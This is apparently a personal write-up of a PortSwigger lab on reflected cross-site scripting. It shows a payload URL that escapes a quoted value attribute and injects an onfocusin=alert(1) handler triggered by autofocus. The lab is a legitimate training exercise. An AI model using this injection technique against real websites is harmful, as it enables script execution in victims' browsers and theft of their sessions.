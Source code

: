 https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded
Our input gets reflected in the HTML, however the app doe html encoding angle brackets. The app also escape backslashes and html encode the qingle quotes, however is ingoring that out input also get reflected in the value atribute, which is a value very used in the inputs.

### Solution
We need to escape the value query and we need an atribute that does not require a value, such as `autofocus=""`, the following payload works for me
```url
https://0a8f00790397911d80bd03cf00090025.web-security-academy.net/?search=%22%20onfocusin=alert(1)%20autofocus=%22
```
and will result in:
![[Pasted image 20250611010201.png]]